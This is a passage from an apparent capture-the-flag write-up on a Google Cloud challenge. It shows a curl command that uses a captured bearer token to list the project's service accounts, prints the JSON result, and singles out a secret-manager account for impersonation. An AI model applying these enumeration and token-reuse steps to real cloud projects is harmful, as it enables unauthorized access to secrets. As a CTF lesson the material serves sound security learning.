 ## List service accounts

Maybe there is another service account that has this kind of permission? According to the [documentation](https://cloud.google.com/iam/docs/reference/rest/v1/projects.serviceAccounts/list)
we can get a list of all the service account for a specific project using the following request (We remember that the project name is `discloud-chal`):

`curl -H "Authorization: Bearer ya29.c.Kn_dB1yqILFXvNzBMncPrpCALQ-4dhzfhNjIudh6ZCmaAtBNbGWzjTn9YmBSSxUDplTVcMmcuuKcw6qpK3fc68JT2BI7wrGHLcQ4mifGQ0AyVaQZGJQ1JKQxfIF015gLdNK8SeQjdQufCnXZTvWm0GirhKB7VtmheE1-r09n9khj" 'https://iam.googleapis.com/v1/projects/discloud-chal/serviceAccounts'`
```json
{
  "accounts": [
    {
      "name": "projects/discloud-chal/serviceAccounts/940676843154-compute@developer.gserviceaccount.com",
      "projectId": "discloud-chal",
      "uniqueId": "103897546930383781490",
      "email": "940676843154-compute@developer.gserviceaccount.com",
      "displayName": "Compute Engine default service account",
      "etag": "MDEwMjE5MjA=",
      "oauth2ClientId": "103897546930383781490"
    },
    {
      "name": "projects/discloud-chal/serviceAccounts/secret-manager@discloud-chal.iam.gserviceaccount.com",
      "projectId": "discloud-chal",
      "uniqueId": "100479552989971744784",
      "email": "secret-manager@discloud-chal.iam.gserviceaccount.com",
      "displayName": "gets da secrets",
      "etag": "MDEwMjE5MjA=",
      "oauth2ClientId": "100479552989971744784"
    },
    {
      "name": "projects/discloud-chal/serviceAccounts/memeboy123@discloud-chal.iam.gserviceaccount.com",
      "projectId": "discloud-chal",
      "uniqueId": "108544651382203580242",
      "email": "memeboy123@discloud-chal.iam.gserviceaccount.com",
      "displayName": "gets da memes",
      "etag": "MDEwMjE5MjA=",
      "oauth2ClientId": "108544651382203580242"
    }
  ]
}
```

This looks very promising! We actually found 3 service accounts :+1:

`secret-manager@discloud-chal.iam.gserviceaccount.com` is probably the account we want to use, but how can we authenticate as this account?

# Generate access token for another service account
